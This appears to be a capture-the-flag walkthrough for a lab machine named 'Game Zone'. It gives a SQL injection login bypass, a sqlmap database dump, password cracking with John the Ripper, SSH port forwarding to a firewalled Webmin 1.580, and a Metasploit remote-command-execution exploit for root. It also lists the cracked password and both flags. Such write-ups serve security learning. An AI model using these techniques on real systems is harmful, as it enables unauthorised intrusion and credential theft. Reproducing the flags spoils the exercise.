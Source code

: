 # GAME ZONE

## BASIC INFO
```
export IP=10.10.213.12
```

## OBTAIN ACCESS VIA SQLi

Using the classic SQLi
```SQL
' OR 1 = 1; --
```

> - **When you've logged in, what page do you get redirected to?**
>> portal.php


## USING SQLMAP

```bash
sqlmap -u $IP/portal.php --method POST --data "searchitem=FUZZ" -p searchitem --cookie P
HPSESSID=bmob1asnnds79dm7i8nsuup0u0 --dbs --dbms mysql --level 2
```

> - **In the users table, what is the hashed password?**
>> ab5db915fc9cea6c78df88106c6500c57f2b52901ca6c0c6218f04122c3efd14

> - **What was the username associated with the hashed password?**
>> agent47

> - **What was the other table name?**
>> post

## CRACKING A PASSWORD WITH JOHN THE RIPPER

```bash
john hashes.txt --wordlist=/usr/share/wordlists/rockyou.txt --format=Raw-ShA256
```

> - **What is the de-hashed password?**
>> videogamer124

> - **Now you have a password and username. Try SSH'ing onto the machine.\
What is the user flag?**
>> 649ac17b1480ac13ef1e4fa579dac95c

## EXPOSING SERVICES WITH REVERSE SSH TUNNELS

Using `ss -tulpn` to see which socket is opened

> - **How any TCP sockets are running?**
>> 5

Service running on port 10000 is blocker via a firewall rule from outside. Run `ssh -L 10000:localhost:10000 agent47@$IP` on our host machine to exposes it to us locally.\
Then in browser, navigate to localhost:10000

> - **What is the name of the exposed CMS?**
>>webmin

> - **What is the CMS version?**
>>1.580

Log in with the credentials we got above


## PRIVILEGE ESCALATION WITH METASPLOIT

> - **What is the root flag?**
>> a4b945830144bdd71908d12d902adeee

Using searchsploit we know this version of webmin is vulnerable to `'/file/show.cgi' Remote Command Execution (Metasploit)`\
Fire up msfconsole, `use exploit/unix/webapp/webmin_show_cgi_exec`\
Then we set the RHOSTS to localhost, username to agent47 and password to videogamer124. Then the LHOST to tun0 and SSL to false.\
Now run the exploit and we should get a shell. `cat root.txt` once we got a shell.

![badges](../../../badges/dianchia.png)